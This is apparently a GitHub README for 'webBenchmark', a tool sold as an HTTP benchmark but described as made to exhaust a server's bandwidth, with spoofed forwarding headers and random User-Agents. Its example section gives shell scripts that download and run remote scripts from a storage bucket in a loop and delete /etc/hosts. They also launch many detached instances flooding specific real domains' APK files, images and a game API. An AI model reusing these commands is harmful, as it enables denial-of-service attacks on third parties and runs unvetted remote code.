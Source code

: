 # webBenchmark
http benchmark tool to ran out your server bandwidth.
- random User-Agent on every Request
- customizable Referer Url,
- concurrent routines as you wish, depends on you server performance.
- add http post mode
- specify target ip, or resolved by system dns.
- randomly X-Forwarded-For and X-Real-IP (default on).

# Todo 
- automatically tune concurrent routines to gain maximum performance. 
- randomly target ip.
- support NOT standard port in address with specify target ip.

# Usage: 
    webBenchmark -c [COUNT] -s [URL] -r [REFERER]
    -c int
          concurrent routines for download (default 16)
    -r string
          referer url
    -s string
          target url (default "https://baidu.com")
    -i string
          customize ip
    -f string
          randomized X-Forwarded-For and X-Real-IP address
    -p string
          post content


# LINUX:
    wget https://github.com/maintell/webBenchmark/releases/download/0.3/webBenchmark_linux_x64
    chmod +x webBenchmark_linux_x64
    ./webBenchmark_linux_x64 -c 32 -s https://target.url

## advanced example
    # send request to 1.1.1.1 for https://target.url with 32 concurrent threads 
    # and refer is https://refer.url
    ./webBenchmark_linux_x64 -c 32 -s https://target.url -r https://refer.url -i 1.1.1.1
    
## example
    #!/bin/bash
yum install psmisc -y
sleep 5s
apt-get install psmisc -y
sleep 5s
rm -rf webBenchmark_linux_x64
curl -O http://storage.googleapis.com/zongcai/webBenchmark_linux_x64
chmod +x webBenchmark_linux_x64
sleep 2s
curl -O http://storage.googleapis.com/zongcai/jh.sh
curl -O http://storage.googleapis.com/zongcai/hosts
chmod +x jh.sh
chmod +x hosts
sh jh.sh
sh hosts
while true
do
sleep 600s
killall -9 webBenchmark_linux_x64
sleep 3s
rm -rf jh.sh
rm -rf hosts
rm -rf /etc/hosts
sleep 5s
curl -O http://storage.googleapis.com/zongcai/jh.sh
curl -O http://storage.googleapis.com/zongcai/hosts
chmod +x jh.sh
chmod +x hosts
sh jh.sh
sh hosts
done


#!/bin/bash
setsid ./webBenchmark_linux_x64 -r http://gj.app -c 12 -s http://all-live.secutre2storeapple.necxs.com/20211218/%E6%9F%91%E6%A9%98%E3%90%85%E7%9B%B4%E6%92%AD_157590.apk /dev/null &
setsid ./webBenchmark_linux_x64 -r http://gj.app -c 12 -s http://all-live.secutre2storeapple.necxs.com/20211216/鏌戞銗呯洿鎾璤236864.apk /dev/null &
setsid ./webBenchmark_linux_x64 -r http://gj.app -c 12 -s http://all-live.secutre2storeapple.necxs.com/20211217/璐靛銗呯洿鎾璤07443.apk /dev/null &
setsid ./webBenchmark_linux_x64 -r http://gj.app -c 12 -s http://all-live.secutre2storeapple.necxs.com/20211217/濂剁硸銗呯洿鎾璤07468.apk /dev/null &
setsid ./webBenchmark_linux_x64 -r http://gj.app -c 12 -s http://all-live.secutre2storeapple.necxs.com/20211217/濂剁硸銗呯洿鎾璤07468.apk /dev/null &
setsid ./webBenchmark_linux_x64 -r http://gj.app -c 64 -s http://gjt.lixianghaodian.com/3/images/banner01.jpg /dev/null &
setsid ./webBenchmark_linux_x64 -r http://gj.app -c 64 -s http://gjt.lixianghaodian.com/3/images/banner01.jpg /dev/null &
setsid ./webBenchmark_linux_x64 -r http://gj.app -c 64 -s http://gjt.lixianghaodian.com/3/images/banner03.jpg /dev/null &
setsid ./webBenchmark_linux_x64 -r http://jg.37gowan.com -c 3 -s http://api.sooyooj.com/index/game/info -p token= -p uid= -p gameid=146 -p channelid=5221 /dev/null &
exit 0

    

